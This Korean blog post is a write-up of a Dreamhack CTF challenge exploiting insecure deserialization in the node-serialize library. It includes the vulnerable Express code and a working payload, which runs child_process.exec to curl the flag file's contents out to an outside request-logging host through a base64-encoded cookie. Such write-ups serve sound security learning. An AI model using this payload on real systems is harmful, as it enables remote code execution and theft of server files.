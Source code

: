 ```yaml
---
title: (42) Dreamhack node-serialize 문제 풀이
date: 2024-02-27 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 설명
Node로 구현된 간단한 서버입니다. 취약점을 찾아 Flag를 획득하세요!
Flag는 `/app/flag` 에 있습니다. ( 플래그형식은 `FLAG{}` 입니다. )

## 문제 풀이
접속해보면 사이트에 별거 없고 문자열만 하나 보입니다.  
바로 코드를 확인해 보겠습니다.
```javascript
const express = require('express');
const cookieParser = require('cookie-parser');
const serialize = require('node-serialize');
const app = express();
app.use(cookieParser())

app.get('/', (req, res) => {
    if (req.cookies.profile) {
        let str = new Buffer.from(req.cookies.profile, 'base64').toString();

        // Special Filter For You :)

        let obj = serialize.unserialize(str);
        if (obj) {
            res.send("Set Cookie Success!");
        }
    } else {
        res.cookie('profile', "eyJ1c2VybmFtZSI6ICJndWVzdCIsImNvdW50cnkiOiAiS29yZWEifQ==", {
            maxAge: 900000,
            httpOnly: true
        });
        res.redirect('/');
    }

});

app.listen(5000);
```
코드도 이게 전부입니다.  
  
문제 이름처럼, unserialize과정에서 발생하는 취약점을 이용한 문제입니다.
### unserialize 취약점
함수를 포함한 객체를 직렬화 하면
```
{"key":"_$$ND_FUNC$$_function() {}"}
```
의 형태로 출력됩니다. 이때 아래와 같이 실행하고자 하는 함수 마지막에 `()`을 추가하면
```
{"key":"_$$ND_FUNC$$_function() { console.log('Hello World!'); }()"}
```
위 문자열을 다시 역직렬화를 할 때 해당 함수를 실행시킬 수 있습니다.
<br>
  
우리는 `flag`를 읽어서 내부의 내용을 얻어야 합니다. 따라서 
```
{"hack":"_$$ND_FUNC$$_function() { require('child_process').exec('curl https://ksvbjlq.request.dreamhack.games?flag=$(cat flag)', () => {}); return true; }()"}
```
위와 `curl`을 이용해서 flag파일을 읽고 dreamhack tools로 보내도록 만들어 주었습니다.
이를 base64로 인코딩하여 `profile` 쿠키에 넣어주고 페이지를 새로고침하면
![](https://kyuyeop.github.io/assets/img/post/42/1.png)
위와 같이 `Set Cookie Success!`가 출력됩니다.  
이후 dreamhack tools로 가서 접속 로그를 확인해보면
![](https://kyuyeop.github.io/assets/img/post/42/2.png)
이렇게 FLAG가 확인할 수 있습니다.  
조건에 맞게 `{}`를 추가해 주면 flag를 구할 수 있습니다.
{% endraw %}